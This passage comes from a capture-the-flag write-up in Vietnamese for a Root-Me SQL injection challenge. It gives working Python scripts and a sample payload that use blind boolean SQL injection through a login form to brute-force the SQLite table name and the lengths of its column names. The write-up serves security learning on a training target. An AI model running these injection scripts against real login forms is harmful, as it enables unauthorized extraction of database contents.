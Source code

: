 Tương tự, brute-force để lấy các ký tự tương đương với từng vị trí, vòng lặp dừng lại ở length đã tìm ở trên. Mình dùng `itertools` để chạy loop với nhiều range khác nhau (cái này mình dự đoán trước là không có ký tự đặc biệt nha, còn bình thường cho chắc phải vét hết từ mã ASCII 33 -> 126):

```python
import requests
import itertools as iter # Chạy 2 range (vùng giá trị) trên 1 vòng lặp for

query = "1' or substr((select tbl_name from sqlite_master limit 0, 1), "   
stringResult = ""

for j in range(1, 6): # Chiều dài là 5 tìm được ở trên
    for i in iter.chain(range(48, 58), range(65, 91), range(97, 123)):
        username = query + str(j) +  ", 1) = '" + chr(i) + "' -- " 
        payload = {
            'username' : username,
            'password' : 123
        }
        request = requests.post('http://challenge01.root-me.org/web-serveur/ch10/', payload)
        if ('Welcome back' in request.text):
            if (j != 5):
                stringResult += chr(i) 
                print(chr(i) + " is valid. Current string: " + stringResult)
                break    
            else:
                stringResult += chr(i) 
                print(chr(i) + " is valid. Complete table's name: " + stringResult)
                break 
        else:
            print(chr(i) + " is not valid ! Continue ... ")
```

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161271293-be22a7a3-588a-477a-935b-a625fabc3f93.png"></p>

Tên table là **users**.

### TÌM ĐỘ DÀI TÊN CỦA CỘT TRONG BẢNG USERS:

Tương tự, brute-force với độ dài tên của cột. Phần này lưu ý bên SQLite mình sẽ dùng cú pháp `pragma_table_info('users')` để chỉ ra bẳng chứa các thông tin **metadata** của bảng `users` . [Thông tin thêm](https://www.sqlite.org/pragma.html#:~:text=The%20PRAGMA%20statement%20is%20an,(non%2Dtable)%20data.). Payload mẫu:

```
1' or length((select name from pragma_table_info('users') limit 0, 1)) = 1 --
```

Brute-force:

```python
import requests

query = "1' or length((select name from pragma_table_info('users') limit "  
result = ""

for j in range(3): # Mình dự đoán sẽ có 3 cột trong table 'users'
    for i in range(1, 30): # Dự đoán chiều dài
        username = query + str(j) + ", 1)) = " + str(i) + " -- "
        payload = {
            'username' : username,
            'password' : 123
        }
        request = requests.post('http://challenge01.root-me.org/web-serveur/ch10/', payload)
        if ('Welcome back' in request.text):
            result += str(i)
            print("Length of columns" + str(j) + "'s name is " + result)
            result = ""
```